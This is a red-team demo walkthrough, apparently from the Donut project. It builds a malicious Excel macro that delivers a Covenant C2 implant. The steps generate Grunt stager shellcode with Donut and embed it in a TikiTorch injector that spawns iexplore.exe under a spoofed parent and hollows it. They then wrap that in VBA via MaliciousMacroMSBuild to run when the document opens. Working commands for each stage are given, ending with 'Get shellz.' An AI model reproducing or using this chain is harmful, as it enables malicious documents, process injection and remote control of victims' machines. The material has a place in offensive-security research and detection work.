 # Overview

This demo is complicated but demonstrates the depth of tradecraft possible with Donut in combination with other tools and frameworks. The steps we will follow are:

1) Setup Covenant and prove that we can get Grunts running on the target box.
2) Create a Grunt EXE and generate shellcode that runs it.
3) Prepare a .NET Assembly based on TikiTorch by rastamouse. It will create an iexplore.exe process with a spoofed parent of explorer.exe. Then it will inject shellcode into that new process through a variant of Process Hollowing. Embed the Grunt shellcode into this Assembly.
4) Genenerate shellcode from the injector .NET Assembly.
5) Use MaliciousMacroMSBuild to generate VBA that runs this shellcode through VBA in a Microsoft Office document.
6) Add the VBA macro to an Excel document to run on startup.
7) Open the document and run the macro. Get shellz.

# Preparing Covenant

IF IT HAS NOT BEEN RUN BEFORE, start the Covenant docker image with:
```
cd /testing/Covenant/Covenant
docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v /testing/Covenant/Covenant/Data:/app/Data covenant
```

IF IT HAS BEEN RUN BEFORE, start the Covenant docker image with:
```
docker start covenant
```

Visit `https://192.168.254.136:7443/`in your browser. Go to Listeners, set the proper Connect IP and start the Listener. Go to Launchers > Binary. Select .NET v4.0 as the target version, and generate a launcher. Download the new launcher to your Demo folder or use the one already there.

Inside the Demo folder, generate the shellcode for the Grunt:
```
.\donut.exe -f .\GruntStager.exe -e
```

The base-64 encoded copy should be in your clipboard if you are doing this on Windows. Otherwise, base64-encode the payload. For safe-keeping, keep the copy in Notepad or another text editor.

Test that the shellcode works by running:
```
.\loader.exe .\instance
```

If it worked, there should now be a new Grunt registered with Covenant and running in the `loader` process.

# Preparing the Payload

Now we will create a TikiTorch injector for the shellcode that we generated above, using the guide on Rasta's blog (https://rastamouse.me/2019/08/covenant-donut-tikitorch/).

```
cd TikiTorch-master
. .\Get-CompressedShellcode.ps1
Get-CompressedShellcode -inFile C:\...\05-Covenant\loader.bin | clip
```

Open up the TikiSpawn project in the TikiTorch solution. Open `Program.cs` and replace the compressed shellcode with that from above.

Build it as a release version. To test that it works, run the following in PowerShell:

```powershell
cd TikiTorch-master\TikiSpawn\bin\Release

[System.Reflection.Assembly]::LoadFile("C:\...\donut\demos\05-Covenant\TikiTorch-master\TikiSpawn\bin\Release\TikiSpawn.dll")

[TikiSpawn]::Flame()
```

Check Covenant to see if you have a callback.

# Generating the Shellcode

Now we will generate the shellcode for the TikiSpawn DLL that we created above.

```
cd ..\..\..\..\
.\donut.exe -f .\TikiTorch-master\TikiSpawn\bin\Release\TikiSpawn.dll -c TikiSpawn -m Flame
```

Test the shellcode with:
```
.\loader.exe .\instance
```

# Generating the Macro

```
python m3-gen.py -p shellcode -i /path/beacon.bin -o output.vba
```

